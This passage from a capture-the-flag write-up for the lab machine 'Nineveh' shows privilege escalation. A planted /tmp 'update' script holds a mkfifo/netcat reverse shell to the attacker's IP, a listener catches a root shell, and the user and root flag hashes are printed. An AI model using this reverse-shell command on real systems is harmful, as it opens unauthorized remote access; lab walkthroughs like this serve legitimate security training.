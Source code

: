 Looks promising, create the update file in tmp with using the same reverse shell command as before:

```text
www-data@nineveh:/tmp$ cat update
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.21 1235 >/tmp/f
www-data@nineveh:/tmp$ chmod +x update
```

Start NC listening in another terminal and wait for it:

```text
root@kali:~/htb/nineveh# nc -nlvp 1235
listening on [any] 1235 ...
connect to [10.10.14.21] from (UNKNOWN) [10.10.10.43] 34250
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```

## User And Root Flags

Get the flags:

```text
# cat /home/amrois/user.txt
82a864f9eec2a76c166ec7b1078ca6c8

# cat /root/root.txt
8a2b4956612b485720694fb45849ec3a
```

## Alternate Method: Port Knocking

If I look back to the gobuster scan we did on https earlier, I see there was a folder called secure_notes that we never looked at, so do that now:

![secure_notes_picture](/assets/images/2020-06-24-22-04-17.png)

